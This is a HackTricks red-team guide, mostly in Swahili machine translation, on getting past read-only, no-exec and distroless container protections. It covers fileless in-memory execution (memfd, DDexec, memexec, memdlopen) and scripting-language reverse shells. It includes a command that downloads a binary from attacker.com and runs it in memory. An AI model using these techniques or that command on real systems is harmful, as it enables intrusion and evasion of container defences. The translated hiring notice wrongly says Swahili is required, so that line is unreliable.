 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## read-only / no-exec scenario

Ni kawaida zaidi na zaidi kupata mashine za linux zilizowekwa na **read-only (ro) file system protection**, hasa katika kontena. Hii ni kwa sababu kuendesha kontena na mfumo wa faili wa ro ni rahisi kama kuweka **`readOnlyRootFilesystem: true`** katika `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Hata hivyo, hata kama mfumo wa faili umewekwa kama ro, **`/dev/shm`** bado itakuwa na uwezo wa kuandikwa, hivyo ni uongo kwamba hatuwezi kuandika chochote kwenye diski. Hata hivyo, folda hii itakuwa **imewekwa na ulinzi wa no-exec**, hivyo ikiwa utashusha binary hapa huwezi **kuweza kuitekeleza**.

{% hint style="warning" %}
Kutoka kwa mtazamo wa timu nyekundu, hii inafanya **kuwa ngumu kupakua na kutekeleza** binaries ambazo hazipo kwenye mfumo tayari (kama backdoors au enumerators kama `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Kumbuka kwamba nilitaja binaries, unaweza **kutekeleza script yoyote** mradi tu mfasiri yuko ndani ya mashine, kama **shell script** ikiwa `sh` inapatikana au **python** **script** ikiwa `python` imewekwa.

Hata hivyo, hii haitoshi kutekeleza backdoor yako ya binary au zana nyingine za binary unazoweza kuhitaji kuendesha.

## Memory Bypasses

Ikiwa unataka kutekeleza binary lakini mfumo wa faili haukuruhusu, njia bora ya kufanya hivyo ni kwa **kuitekeleza kutoka kwenye kumbukumbu**, kwani **ulinzi hauwezi kutumika huko**.

### FD + exec syscall bypass

Ikiwa una baadhi ya injini za script zenye nguvu ndani ya mashine, kama **Python**, **Perl**, au **Ruby** unaweza kupakua binary ili kuitekeleza kutoka kwenye kumbukumbu, kuihifadhi katika file descriptor ya kumbukumbu (`create_memfd` syscall), ambayo haitalindwa na ulinzi huo na kisha kuita **`exec` syscall** ikionyesha **fd kama faili ya kutekeleza**.

Kwa hili unaweza kwa urahisi kutumia mradi [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Unaweza kupitisha binary na itaunda script katika lugha iliyoonyeshwa na **binary iliyoshinikizwa na b64 encoded** na maagizo ya **kufungua na kuondoa shinikizo** katika **fd** iliyoundwa kwa kuita `create_memfd` syscall na wito kwa **exec** syscall kuikimbia.

{% hint style="warning" %}
Hii haifanyi kazi katika lugha nyingine za scripting kama PHP au Node kwa sababu hazina njia yoyote ya **kawaida ya kuita raw syscalls** kutoka kwenye script, hivyo haiwezekani kuita `create_memfd` kuunda **memory fd** kuhifadhi binary.

Zaidi ya hayo, kuunda **fd ya kawaida** na faili katika `/dev/shm` haitafanya kazi, kwani hutaruhusiwa kuikimbia kwa sababu **ulinzi wa no-exec** utatumika.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ni mbinu inayokuruhusu **kurekebisha kumbukumbu ya mchakato wako** kwa kuandika tena **`/proc/self/mem`**.

Hivyo, **kuweza kudhibiti msimbo wa mkusanyiko** unaotekelezwa na mchakato, unaweza kuandika **shellcode** na "kubadilisha" mchakato ili **utekeleze msimbo wowote wa kawaida**.

{% hint style="success" %}
**DDexec / EverythingExec** itakuruhusu kupakia na **kutekeleza** shellcode yako mwenyewe au **binary yoyote** kutoka **kumbukumbu**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Kwa maelezo zaidi kuhusu mbinu hii angalia Github au:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) ni hatua ya asili inayofuata ya DDexec. Ni **DDexec shellcode demonised**, hivyo kila wakati unapotaka **kufanya kazi na binary tofauti** huwezi kuanzisha tena DDexec, unaweza tu kuendesha memexec shellcode kupitia mbinu ya DDexec na kisha **kuwasiliana na demon hii ili kupitisha binaries mpya za kupakia na kuendesha**.

Unaweza kupata mfano wa jinsi ya kutumia **memexec kutekeleza binaries kutoka kwa PHP reverse shell** katika [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Kwa kusudi linalofanana na DDexec, mbinu ya [**memdlopen**](https://github.com/arget13/memdlopen) inaruhusu **njia rahisi ya kupakia binaries** kwenye kumbukumbu ili baadaye kuziendesha. Inaweza hata kuruhusu kupakia binaries zenye utegemezi.

## Distroless Bypass

### Nini distroless

Mizigo ya distroless ina sehemu tu za **muhimu kabisa zinazohitajika kuendesha programu au huduma maalum**, kama vile maktaba na utegemezi wa wakati wa kuendesha, lakini inatenga sehemu kubwa kama vile meneja wa pakiti, shell, au zana za mfumo.

Lengo la mizigo ya distroless ni **kupunguza uso wa shambulio wa mizigo kwa kuondoa sehemu zisizohitajika** na kupunguza idadi ya udhaifu ambao unaweza kutumiwa.

### Reverse Shell

Katika mizigo ya distroless huenda **usipate hata `sh` au `bash`** kupata shell ya kawaida. Hutaweza pia kupata binaries kama `ls`, `whoami`, `id`... kila kitu ambacho kawaida unakimbia kwenye mfumo.

{% hint style="warning" %}
Hivyo, huwezi kupata **reverse shell** au **kuhesabu** mfumo kama kawaida unavyofanya.
{% endhint %}

Hata hivyo, ikiwa kontena lililovunjwa linaendesha kwa mfano flask web, basi python imewekwa, na hivyo unaweza kupata **Python reverse shell**. Ikiwa linaendesha node, unaweza kupata Node rev shell, na vivyo hivyo na lugha nyingi za **scripting**.

{% hint style="success" %}
Kwa kutumia lugha ya scripting unaweza **kuhesabu mfumo** kwa kutumia uwezo wa lugha hiyo.
{% endhint %}

Ikiwa hakuna **`read-only/no-exec`** ulinzi unaweza kutumia reverse shell yako ku **andika kwenye mfumo wa faili binaries zako** na **kuziendesha**.

{% hint style="success" %}
Hata hivyo, katika aina hii ya mizigo ulinzi huu kwa kawaida utawepo, lakini unaweza kutumia **mbinu za awali za utekelezaji wa kumbukumbu kuzipita**.
{% endhint %}

Unaweza kupata **mfano** wa jinsi ya **kutumia udhaifu fulani wa RCE** kupata lugha za scripting **reverse shells** na kuendesha binaries kutoka kwenye kumbukumbu katika [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa unavutiwa na **kazi ya hacking** na kuhack yasiyoweza kuhackika - **tunatafuta wafanyakazi!** (_kuandika na kuzungumza kwa kiswahili vizuri kunahitajika_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
